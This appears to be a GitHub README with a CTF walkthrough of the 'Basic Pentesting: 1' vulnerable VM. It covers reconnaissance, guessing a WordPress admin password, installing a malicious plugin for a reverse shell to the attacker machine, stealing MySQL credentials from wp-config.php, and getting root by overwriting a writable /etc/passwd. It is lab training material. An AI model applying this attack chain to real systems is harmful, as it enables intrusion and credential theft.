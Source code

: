 # CTF-Walkthrough
This repository contains a list of CTFs/vulnerable virtual machines which I have attempted to pick up CTF skills.

# Basic Pentesting: 1
By Josiah Pierce  

* After the VM has been booted up, we are greeted with a login page that request for the password of user marlinspike.
* The IP address of the VM can be found by clicking the icon with 2 arrows pointing up and down respectively on the top right-hand corner of the VM. No nmap scans are thus needed.
* The IPv4 address of the VM is 192.168.110.135.
* From our Kali VM, execute `nmap -sS 192.168.110.135`.
* There are 3 ports that are open: 21 (ftp), 22 (ssh) and 80 (http). These results are loaded instantly after the command is executed - scan result was previously cached(?).
* We visit 192.168.110.135 and find a web server running. The page says that "It works!".
* Note: Viewing the page source reveals no additional information.
* Note: /admin, /login.php, /robots.txt are invalid pages as well.
* Though the page also said that "no content has been added yet", we cannot necessarily trust it. Thus, run `dirbuster`, which tries to find hidden files and directories using a user-supplied wordlist.
* Put 192.168.110.135 into the `Target URL` of dirbuster. We will use a wordlist that is provided by dirbuster, which can be found in /usr/share/dirbuster/wordlists. We will use `directory-list-lowercase-2.3-small.txt` for a start. We will also use `30 threads`.
* While waiting for dirbuster to do its job, we will look at other areas, such as verifying that it is indeed the ssh service which is running at port 22. Since there is a response that requests for the password, we can confirm that it is indeed the case.
* Heading back to dirbuster, we find that there is a directory called `secret` that contains `wp-content`, `wp-includes`, etc.
* With 192.168.110.135/secret, we expect a WordPress page to load, which happens (page is titled "My secret blog"). Note: the page loads rather slowly - why(?), and the page contents are not loaded properly, i.e. positioning of the texts, icons are off, as if there is no CSS.
* Placing our mouse over some of the links, we find that the hyperlink domain is actually `vtcsec`.
* Next, open our Hosts file in Kali: `sudo nano /etc/hosts`, add in 2 entries: `192.168.110.135 vtcsec` and `192.168.110.135 vtcsec.com`, and finally save the file. What this means is that the IP address of vtcsec is determined by us to be 192.168.110.135, and any machine accesses vtcsec will actually access 192.168.110.135 instead.
* Note: The vtcsec.com mapping is just in case there might be a case where there is a `.com` domain extension for one of the hyperlinks, though we have yet to see one so far.
* Go back to 192.168.110.135/secret and refresh the page - volia, we see that the page has been properly loaded. This is because that the CSS was trying to pull from a domain that did not exist until we added the entries to the Hosts file.
* There is no interesting content on the site's post, so we head to the Login page of the WordPress site and attempt to login using the username `admin` and a random password. Using a random password allows us to check if an account with the username admin exists. The error message from an invalid login, that "the password you entered for the username admin is incorrect" confirms so. This is a form of information leakage in my opinion on WordPress' part.
* We attempt using the password `admin` for the admin account with a quick guess, and access is granted. No kind of bruteforcing is required at this step.
* Head to the Plugins page and install `malicious-wordpress-plugin` by `wetw0rk` (GitHub). Once installed on WordPress, a reverse shell is granted.
* Before beginning the installation of the plugin, we will first start up our listener by opening the Git repository from our terminal, and execute `python wordpwn.py 192.168.110.132 4000`. The IP address in the parameter is that of the Kali machine.
* The payload is then generated in a .zip file. Once the reverse TCP handler (listener) is started on the Kali terminal, we can upload the payload as a plugin (GotEm) to the WordPress site, and activate it.
* We will next head to the plugins editor, select the GotEm plugin to find out the path to the files which are within the plugin, which are `malicious/QwertyRocks.php` and `malicious/wetw0rk_maybe.php`. There are only commented codes in the former, and in the latter, we find that there is a whole long string within a base64_decode and eval functions.
* Next, we head to `vtcsec/secret/wp-contet/plugins/malicious/wetw0rk_maybe.php`.
* Heading back to our Kali terminal, we see that a session has been opened, and enter `shell`. Executing `whoami`, we see that we are www-data. We have now successfully logged into the victim VM.
* From the reverse shell which we have gotten, we can go up a few levels of directory to the one that contains a number of `wp-` PHP files, and specifically we want to download the wp-config.php to the root folder (i.e. back to our Kali machine): `download wp-config.php /root`.
* Open up the config file from our Kali machine with a text editor, and we find that we have the MySQL database username `root` and password `arootmysqlpass`.
* Side-note: We can probably do a **privilege escalation** from here after logging in to the database, but this is not the focus here at this moment.
* Next, we will use `unix-privesc-check` from `pentestmonkey` (GitHub) on the victim VM. This tool is a "shell script to check for simple privilege escalation vectors on Unix systems".
* From our reverse shell, cd to `/var/www/html`, which hosts the secret page. We will now upload the tool to the victim VM: `upload /root/unix-privesc-check`.
* Give executable permissions to the script via chmod, and then `./unix-privesc-check standard > output.txt`. Wait for awhile for our results to be redirected to the output text file. Next, download output.txt to /root.
* Search for the string "WARNING" output.txt and we see that one of the findings is that `/etc/passwd` can be written by anyone. Download the /etc/passwd file to /root.
* We see that the password of root is `x`, which means that it has been encrypted. However, we can overwrite .
* Run openssl passwd -1, and enter a simple password such as `pass`. A password hash is generated as the output. Copy and paste this hash over the `x`, save the file, and upload the file back to the victim VM.
* *Question: What does -1 mean? To give a SHA-1 digest?*
* Execute `su root -l`, but we find that there is an error stating that su must be run from a terminal. Execute `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn a proper shell.
* Note: -l flag means --login, i.e. to start the shell as a login shell with an environment similar to a real login.
* Enter the password as our defined password `pass`, and we have got root access!
